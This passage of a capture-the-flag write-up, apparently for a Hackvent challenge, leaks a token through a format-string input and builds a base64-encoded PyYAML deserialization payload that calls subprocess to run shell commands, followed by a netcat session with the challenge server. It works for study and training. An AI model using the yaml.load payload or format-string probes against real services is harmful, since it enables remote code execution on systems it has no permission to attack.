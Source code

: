 We look at the output until we find these two lines:
```
[+] Please give me some marshmallows: %294$s
MARSHMALLOW_TOKEN=eb261970-9745-4180-9f3c-d6a3cdaeee8d
```

Since the memory layout seems to be constant we don't need to rerun it and the `%294$s` string will always be the token. We can now go to step 2 and try to exploit the yaml.load() function. To do that we find some exploits on Internet and especially [2]. We can then try it localy using another python script:
```python
import yaml
import base64

load_yml = yaml.load
user_input = "..."

exploit = base64.b64encode("!!python/object/apply:subprocess.call\nargs: [ls]\nkwds: {shell: true}")
print(exploit)

secret_marshmallows = load_yml(base64.b64decode(exploit).decode('ascii'))
print(secret_marshmallows)
```

The script will output the payload base64 encoded and execute it locally as well. We can now browse through the folders. We know from the search for the token that a /home/marshmallow folder exist so we start there and we perform the following session online to get the flag:
```
nc challenges.hackvent.hacking-lab.com 1033
[+] WELCOME!

MuffinX presents...

                /^\/^\
              _|__|  O|
     \/     /~     \_/ \
      \____|__________/  \
             \_______      \
                     `\     \                 \
                       |     |                  \
                      /      /                    \
                     /     /                       \
                   /      /                         \ \
                  /     /                            \  \
                /     /             _----_            \   \
               /     /           _-~      ~-_         |   |
              (      (        _-~    _--_    ~-_     _/   |
               \      ~-____-~    _-~    ~-_    ~-_-~    /
                 ~-_           _-~          ~-_       _-~
                    ~--______-~                ~-___-~        ... Marshmallows! <3

[+] Menu

1 - Play chubby bunny.
2 - Exit.

### GET THE TOKEN ###

> 1
[+] Please give me some marshmallows: %294$s
MARSHMALLOW_TOKEN=eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Menu

1 - Play chubby bunny.
```